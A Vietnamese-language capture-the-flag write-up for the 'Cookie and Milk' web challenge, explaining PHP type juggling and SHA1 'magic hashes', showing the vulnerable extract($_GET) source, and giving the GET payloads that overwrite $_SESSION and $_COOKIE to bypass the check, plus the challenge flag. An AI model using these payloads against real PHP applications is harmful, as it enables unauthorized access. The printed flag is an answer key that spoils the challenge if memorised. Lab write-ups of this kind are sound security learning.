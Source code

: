 # Cookie and Milk 


[link-challenghe](https://battle.cookiearena.org/challenges/web/cookie-and-milk)

> Bài này có hai keyword được ghi dưới đề bài  : type juggling and hash magic 
>  đầu tiên là type juggling -> lỗi trong php từ phiên bản 8.x đổ xuống thì nó tùy còn ngữ cảnh mà sẽ ép  hai giá trị khi thực hiện so sánh qua if trong boolean expression về một loại chung , ví dụ như 
```
<?php
// Enter your code here, enjoy!
$a = "0d4545anh yêu em ";
$b = 0 ; 
var_dump($b == $a );

//output 
bool(true)
```
bởi nó sẽ dựa vào một bên chuỗi :  nếu 1 trong 2 là số , thì nó sẽ ép cả hai thành số , còn không cả hai là chuỗi thì nó sẽ có gắng ép thành numbers theo trang chủ php :>  !
 ![Alt text](image.png)
như thế kia vì ```$b=0``` là số thì ```$a``` cũng được ép thành số , lúc đó nó chỉ được coi là ```(int)$a``` và nó trở thành 0 cũng là số nên nó sẽ pass điều kiện ! 
> key word hash magic , khi các hàm mã như MD5 , SHA1 , .... mã ra một chuỗi "0e127617286... "  toàn là số đằng sau thì PHP sẽ hiểu là 0^127617 ... = 0 
[các bạn có thể xem thêm ở đây](https://github.com/spaze/hashes/blob/master/sha1.md)
vậy nên chỉ cần tìm hai chuỗi hash magic thì có phải nó đều được parse ra 0 thì 0 == 0  => return true

### BẮT ĐẦU VÀO BÀI 
SOURCE CODE : 
```
<?php
include(__DIR__."/flag.php");
extract($_GET);
if (isset($_COOKIE['magic']) && isset($_SESSION['magic']))  {
    if ($_SESSION['magic'] === $_COOKIE['magic']) {
        echo "I love Cookie Han Hoan";
    } else if (sha1($_SESSION['magic']) == sha1($_COOKIE['magic'])) {
        echo $flag;
    }
} else {
    highlight_string(show_source(__FILE__));
}
?>
```
hàm extract sẽ lấy các key trong array và biến nó thành variable bằng cách thêm $ và lấy value được truyền theo ! 
Có thể ghi đè luôn các biến có sẵn như $_GET, $_POST,$_COOKIE,$_SESSION 
+nếu như bình thường thì ở phía client mà ko có hàm  ```extract()``` 
thì mình không thể can thiệp vào giá trị của ```$_SESSION``` được ! 
ban đầu mình sẽ truyền giá trị của hai biến $_SESSION và $_COOKIE giống nhau : 
```
GET /?_COOKIE[magic]=haha&_SESSION[magic]=haha HTTP/1.1
```
tham số này sau khi gặpp hàm extract()  sẽ thành  $_COOKIE['magic'] = 'haha' ,$_SESSION['MAGIC'] ="haha" , các value nhận qua biến global đều sẽ ở dạng string .
OUTPUT :
![Alt text](image-1.png)
giờ nhiệm vụ là tìm hai chuỗi hash theo sha1 mà đều ra 0 -> ra flag 
ở đây mình sẽ lấy 2 payload là : 
```
GET /?_COOKIE[magic]=aaroZmOk&_SESSION[magic]=aaK1STfY 
```
>aaroZmOk:0e66507019969427134894567494305185566735
aaK1STfY:0e76658526655756207688271159624026011393 
->  và ta đã có flag 
``` CHH{TYpE_jU6gliNg_d5c3bd02e90fd038d98ad9c362715c47}```
=======
